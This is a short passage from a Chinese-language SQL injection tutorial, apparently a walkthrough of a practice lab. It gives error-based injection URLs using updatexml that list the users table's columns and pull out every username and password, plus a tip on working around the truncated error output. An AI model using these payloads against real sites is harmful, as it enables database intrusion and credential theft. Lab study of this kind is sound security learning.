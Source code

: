 >   注意:   报错注入的回显是**有长度限制**的, 如果结果被截断, 刻意用 `limit 0,1` → `limit 1,3` 等来慢慢调整长度。 

---

获取列名:

```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='security' and table_name='users'),0x7e),1) --+
```

![s5-4.png](s5-4.png)

---

接下来拖出 user 表中的数据即可:

```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(password) FROM users),0x7e),1) --+
```

![s5-5.png](s5-5.png)

```url
?id=1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(username) FROM users),0x7e),1) --+
```

![s5-6.png](s5-6.png)
